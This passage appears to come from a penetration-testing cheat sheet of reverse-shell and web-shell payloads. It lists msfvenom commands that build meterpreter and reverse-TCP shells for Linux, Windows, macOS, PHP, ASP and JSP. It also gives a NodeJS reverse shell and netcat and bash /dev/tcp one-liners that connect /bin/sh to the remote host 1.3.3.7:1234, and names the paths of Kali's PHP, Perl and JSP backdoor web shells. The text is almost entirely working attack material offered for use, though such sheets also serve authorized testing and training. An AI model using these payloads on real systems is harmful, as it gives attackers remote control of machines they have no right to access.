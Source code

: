 >msfvenom -p java/jsp_shell_reverse_tcp LHOST=1.3.3.7 LPORT=1234 -f raw > shell.jsp

>msfvenom -p java/jsp_shell_reverse_tcp LHOST=1.3.3.7 LPORT=1234 -f war > shell.war

#### NodeJS

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1234, "1.3.3.7", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```
```javascript
require('child_process').exec('nc -e /bin/sh 1.3.3.7 1234')
```

```javascript
require("child_process").exec('bash -c "bash -i >%26 /dev/tcp/1.3.3.7/1234 0>%261"')
```
>https://gitlab.com/0x4ndr3/blog/blob/master/JSgen/JSgen.py

#### Kali Web Shells
>/usr/share/webshells/php/php-reverse-shell.php

>/usr/share/webshells/php/simple-backdoor.php

>/usr/share/webshells/php/php-backdoor.php

>/usr/share/webshells/perl/perl-reverse-shell.pl

>/usr/share/webshells/perl/perlcmd.cgi

>/usr/share/webshells/cfm/cfexec.cfm

>/usr/share/webshells/asp/

>/usr/share/webshells/aspx/

>/usr/share/webshells/jsp/jsp-reverse.jsp

### Metasploit Payloads
#### Binaries
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
#### Web Payloads
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
#### Scripting Payloads